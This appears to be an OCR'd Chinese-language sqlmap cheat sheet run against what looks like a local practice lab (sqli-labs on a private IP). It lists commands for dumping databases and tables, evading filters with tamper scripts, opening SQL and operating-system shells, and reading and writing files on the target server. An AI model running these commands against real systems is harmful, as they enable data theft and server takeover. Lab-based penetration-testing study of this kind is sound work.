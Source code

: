 ```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all 
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" 
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   

-v3                   
--threads 5           
--fresh-queries       
--flush-session       
--batch               
--random-agent        
--tamper base64encode            
--referer http://www.baidu.com   

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数

```

### 探测指定 URL 是否存在 SQL 注入漏洞
